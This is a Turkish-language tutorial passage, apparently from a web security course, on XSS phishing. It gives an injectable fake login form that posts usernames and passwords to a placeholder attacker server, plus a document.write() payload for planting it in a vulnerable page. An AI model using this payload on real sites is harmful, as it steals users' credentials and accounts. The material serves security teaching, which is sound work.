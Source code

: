 # Phishing(Kimlik Avı)

Çok yaygın bir diğer XSS saldırısı türü ise kimlik avı saldırısıdır. Kimlik avı saldırıları genellikle kurbanları hassas bilgilerini saldırgana göndermeleri için kandırmak amacıyla meşru görünen bilgileri kullanır. Yaygın bir XSS kimlik avı saldırısı biçimi, oturum açma bilgilerini saldırganın sunucusuna gönderen sahte oturum açma formları enjekte etmek yoluyla olur; bu daha sonra kurban adına oturum açmak ve hesabı ve hassas bilgileri üzerinde kontrol elde etmek için kullanılabilir.

# Giriş Formu Enjeksiyonu

Çalışan bir XSS yükü tanımladığımızda, kimlik avı saldırısına geçebiliriz. Bir XSS kimlik avı saldırısı gerçekleştirmek için, hedeflenen sayfada bir oturum açma formu görüntüleyen bir HTML kodu enjekte etmeliyiz. Bu form, oturum açma bilgilerini dinlediğimiz bir sunucuya göndermelidir, böylece bir kullanıcı oturum açmaya çalıştığında, kimlik bilgilerini alırız.

Basit bir giriş formu için bir HTML kodunu kolayca bulabiliriz veya kendi giriş formumuzu yazabiliriz. Aşağıdaki örnek bir giriş formunu sunmalıdır:

    <h3>devam etmek için giriş yapın</h3>
    <form action=http://bilgilerin gitçeği ıp>
      <input type="username" name="username" placeholder="Username">
      <input type="password" name="password" placeholder="Password">
      <input type="submit" name="submit" value="Login">
    </form>

Savunmasız sayfaya HTML kodu yazmak için, JavaScript işlevini kullanabilir document.write() ve kodumuzun en son hali:

    document.write('<h3>devam etmek için giriş yapın</h3><form action=http://bilgilerin gitçeği ıp><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');

